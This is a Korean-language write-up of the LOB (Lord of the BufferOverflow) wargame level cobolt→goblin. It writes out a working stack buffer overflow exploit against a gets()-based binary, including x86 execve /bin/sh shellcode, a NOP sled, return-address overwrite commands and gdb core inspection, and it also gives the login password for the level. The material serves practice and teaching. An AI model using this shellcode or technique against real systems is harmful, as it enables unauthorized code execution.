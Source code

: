 # LOB - cobolt

이전 문제인 gremlin에서 구한 cobolt와 PW인 hacking exposed를 이용해 로그인한다.



ID : cobolt

PW : hacking exposed



![1567948321473](https://user-images.githubusercontent.com/52530785/64917391-fd077200-d7ca-11e9-9681-cf1d347c96e6.png)



파일 목록을 보면

![1567948350031](https://user-images.githubusercontent.com/52530785/64917392-fd077200-d7ca-11e9-86d4-876c3b120a69.png)

다음과 같이 있다.



```c
vi goblin.c 	명령어를 통해 코드를 확인해본다.
```

![1567948638015](https://user-images.githubusercontent.com/52530785/64917393-fda00880-d7ca-11e9-8a13-735f31d06f1e.png)



버퍼가 16바이트이고 이번엔 strcpy가 아니라 gets로 buffer에 입력 받아서 출력한다.

![1567948814259](https://user-images.githubusercontent.com/52530785/64917394-fda00880-d7ca-11e9-8307-42eb1ffbe57d.png)



여기서도 buffer 크기 + SFP 크기인 20글자를 입력하면 segmentation fault 가 뜬다.

![1567948975295](https://user-images.githubusercontent.com/52530785/64917395-fda00880-d7ca-11e9-8317-b177966ba1a6.png)



파이썬은 이렇게 쓸 수 있다.

```c
python -c 'print "a"*100' | ./goblin
```

![1567949406268](https://user-images.githubusercontent.com/52530785/64917396-fda00880-d7ca-11e9-8105-802ec1f7557e.png)



a가 100개가 들어가도 segmentation fault가 뜨진 않지만 실제로는 fault가 났다.

![1567950186314](https://user-images.githubusercontent.com/52530785/64917397-fe389f00-d7ca-11e9-8cfd-fef5b5a0c266.png)

core 파일이 생겼다.



다음 명령어로 gets에 인자를 주고 argv 에 쉘코드를 넣는다.

```c
python -c 'print "b"*20+"\x61\x61\x61\x61"' | ./goblin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```



```c
gdb -c core		명령어를 실행한다.
```

![1567951343506](https://user-images.githubusercontent.com/52530785/64917399-fe389f00-d7ca-11e9-801b-3be76fa52dba.png)

앞부분에 python -c 'print "b"*20+"\x61\x61\x61\x61"' 로 준게 잘 들어가서 eip가 

0x61616161 이 된 것을 볼 수 있다.



```c
x/100wx $esp+300	명령어를 통해 메모리를 본다.
```

![1567951450569](https://user-images.githubusercontent.com/52530785/64917400-fe389f00-d7ca-11e9-871c-424a21fc8fd2.png)

쉘코드의 위치를 볼 수 있다. 

쉘코드 위의 Nop 영역 중 하나를 고른다.

bffffbfc 를 골랐다.



이제 bffffbfc를 61616161 자리에 넣는다.

하지만 지금은 gremlin과 달리 strcpy가 아니라 gets로 하므로, 

(python -c 'print "b"*20+"\xfc\xfb\xff\xbf"';cat) 를 통해 줘야한다.

goblin의 argv에는 쉘코드를 준다.

```c
(python -c 'print "b"*20+"\xfc\xfb\xff\xbf"';cat) | ./goblin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

![1567951716240](https://user-images.githubusercontent.com/52530785/64917388-fd077200-d7ca-11e9-9040-f358a5796863.png)

쉘이 떴다.



이제 main 디렉터리로 와서 POC를 실행한다.

![1567951789993](https://user-images.githubusercontent.com/52530785/64917390-fd077200-d7ca-11e9-9c79-3c56c573983b.png)

암호가 떴다.
